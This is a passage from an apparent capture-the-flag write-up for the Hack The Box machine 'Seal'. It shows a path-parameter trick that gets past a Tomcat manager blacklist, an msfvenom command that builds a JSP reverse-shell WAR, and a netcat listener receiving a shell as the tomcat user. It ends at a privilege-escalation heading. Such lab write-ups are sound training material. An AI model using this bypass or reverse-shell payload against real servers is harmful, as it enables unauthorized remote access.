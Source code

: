 P.S. this method (``https://seal.htb/;name=qwe/manager/html`) is able to get the manager page but no more operations are not successful (cannot reload, deploy, stop ...)

![image-20240203023954276](./Seal.assets/image-20240203023954276.png)

Above all, the only way to bypass blacklist is `https://seal.htb/;(NOTHING)/manager/html`.

### Deploy Revshell in Tomcat

- Create WAR payload: `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f war -o shell.war`

- Upload WAR: `https://seal.htb/;name=qwe/manager/html`

```console
└─╼$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.250] 41972
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
uname -a
Linux seal 5.4.0-80-generic #90-Ubuntu SMP Fri Jul 9 22:49:44 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

## Privilege Escalation

### tomcat -> luis
